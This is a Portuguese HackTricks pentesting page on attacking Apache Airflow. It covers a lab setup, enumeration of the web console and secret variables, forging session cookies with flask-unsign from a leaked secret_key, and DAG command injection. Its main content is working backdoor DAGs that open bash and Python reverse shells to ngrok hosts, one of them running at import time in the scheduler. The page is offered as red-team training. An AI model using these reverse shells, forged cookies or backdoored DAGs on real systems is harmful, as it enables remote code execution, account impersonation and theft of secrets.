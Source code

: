 # Segurança do Apache Airflow

<details>

{% hint style="success" %}
Aprenda e pratique Hacking na AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações Básicas

[**Apache Airflow**](https://airflow.apache.org) atua como uma plataforma para **orquestar e agendar pipelines ou fluxos de dados**. O termo "orquestração" no contexto de pipelines de dados significa o processo de organizar, coordenar e gerenciar fluxos de trabalho de dados complexos originados de várias fontes. O objetivo principal desses pipelines de dados orquestrados é fornecer conjuntos de dados processados e consumíveis. Esses conjuntos de dados são amplamente utilizados por uma infinidade de aplicativos, incluindo, mas não se limitando a ferramentas de inteligência de negócios, ciência de dados e modelos de aprendizado de máquina, todos os quais são fundamentais para o funcionamento de aplicativos de big data.

Basicamente, o Apache Airflow permitirá que você **agende a execução de código quando algo** (evento, cron) **acontece**.

## Laboratório Local

### Docker-Compose

Você pode usar o **arquivo de configuração docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para iniciar um ambiente completo do Apache Airflow com Docker. (Se estiver no MacOS, certifique-se de fornecer pelo menos 6GB de RAM para a máquina virtual do Docker).

### Minikube

Uma maneira fácil de **executar o Apache Airflow** é executá-lo **com o minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuração do Airflow

O Airflow pode armazenar **informações sensíveis** em sua configuração ou você pode encontrar configurações fracas em vigor:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC do Airflow

Antes de começar a atacar o Airflow, você deve entender **como funcionam as permissões**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeração do Console Web

Se você tiver **acesso ao console web**, pode ser capaz de acessar algumas ou todas as seguintes informações:

* **Variáveis** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* **Conexões** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* Acesse em `http://<airflow>/connection/list/`
* [**Configuração**](./#airflow-configuration) (Informações sensíveis como a **`secret_key`** e senhas podem ser armazenadas aqui)
* Listar **usuários e funções**
* **Código de cada DAG** (que pode conter informações interessantes)

### Recuperar Valores de Variáveis

Variáveis podem ser armazenadas no Airflow para que os **DAGs** possam **acessar** seus valores. É semelhante a segredos de outras plataformas. Se você tiver **permissões suficientes**, pode acessá-los na GUI em `http://<airflow>/variable/list/`.\
Por padrão, o Airflow mostrará o valor da variável na GUI, no entanto, de acordo com [**este**](https://marclamberti.com/blog/variables-with-apache-airflow/) é possível definir uma **lista de variáveis** cujo **valor** aparecerá como **asteriscos** na **GUI**.

![](<../../.gitbook/assets/image (164).png>)

No entanto, esses **valores** ainda podem ser **recuperados** via **CLI** (é necessário ter acesso ao BD), execução de **DAG arbitrário**, **API** acessando o endpoint de variáveis (a API precisa estar ativada) e **até mesmo a própria GUI!**\
Para acessar esses valores na GUI, basta **selecionar as variáveis** que deseja acessar e **clicar em Ações -> Exportar**.\
Outra maneira é realizar um **bruteforce** para o **valor oculto** usando o **filtro de pesquisa** até encontrá-lo:

![](<../../.gitbook/assets/image (152).png>)

### Escalação de Privilégios

Se a configuração **`expose_config`** estiver definida como **True**, a partir da **função de Usuário** e **acima** pode **ler** a **configuração na web**. Nesta configuração, a **`secret_key`** aparece, o que significa que qualquer usuário com isso válido pode **criar seu próprio cookie assinado para se passar por qualquer outra conta de usuário**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor do DAG (RCE no worker do Airflow)

Se você tem **acesso de escrita** ao local onde os **DAGs são salvos**, você pode simplesmente **criar um** que irá enviar a você um **shell reverso**.\
Observe que este shell reverso será executado dentro de um **container do worker do airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Backdoor do DAG (RCE no agendador do Airflow)

Se você definir algo para ser **executado na raiz do código**, no momento desta escrita, ele será **executado pelo agendador** após alguns segundos após ser colocado dentro da pasta do DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Criação de DAG

Se você conseguir **comprometer uma máquina dentro do cluster DAG**, você pode criar novos **scripts DAGs** na pasta `dags/` e eles serão **replicados no restante das máquinas** dentro do cluster DAG.

### Injeção de Código DAG

Ao executar um DAG a partir da GUI, você pode **passar argumentos** para ele.\
Portanto, se o DAG não estiver codificado corretamente, ele poderá ser **vulnerável à Injeção de Comandos.**\
Foi o que aconteceu neste CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tudo o que você precisa saber para **começar a procurar injeções de comandos em DAGs** é que os **parâmetros** são **acessados** com o código **`dag_run.conf.get("nome_do_parametro")`**.

Além disso, a mesma vulnerabilidade pode ocorrer com **variáveis** (observe que, com privilégios suficientes, você poderia **controlar o valor das variáveis** na GUI). As variáveis são **acessadas com**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se forem usados, por exemplo, dentro de um comando bash, você poderia realizar uma injeção de comando.

<details>

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
